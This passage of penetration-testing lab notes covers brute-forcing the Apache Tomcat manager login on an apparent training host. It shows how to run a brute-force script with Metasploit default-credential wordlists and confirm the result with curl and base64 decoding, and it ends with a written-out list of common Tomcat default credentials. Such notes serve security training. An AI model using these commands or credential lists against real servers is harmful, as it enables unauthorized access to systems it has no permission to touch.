 #### Script Usage and Execution
```bash
# Make script executable
chmod +x tomcat_brute.py

# Display help options
python3 tomcat_brute.py -h

# Execute brute force attack
python3 tomcat_brute.py \
  -U http://web01.inlanefreight.local:8180/ \
  -P /manager/html \
  -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt \
  -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

# Expected successful output:
[+] Atacking.....
[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

### Manual Authentication Testing

#### Burp Suite Integration
```bash
# Intercept authentication requests in Burp Suite
# Authorization header format: Basic base64(username:password)

# Manual credential testing with curl
curl -u "tomcat:admin" http://web01.inlanefreight.local:8180/manager/html

# Base64 decode captured authorization headers
echo "dG9tY2F0OmFkbWlu" | base64 -d
# Output: tomcat:admin

# Verify authentication mechanism
echo "admin:vagrant" | base64
# Output: YWRtaW46dmFncmFudA==
```

#### Default Credential Database
```bash
# Common Tomcat default credentials
cat > tomcat_default_creds.txt << 'EOF'
tomcat:tomcat
admin:admin
manager:manager
admin:password
tomcat:password
admin:tomcat
admin:
tomcat:
manager:admin
admin:manager
role1:role1
root:root
both:tomcat
tomcat:role1
role1:tomcat
tomcat:s3cret
s3cret:s3cret
admin:s3cret
EOF
```
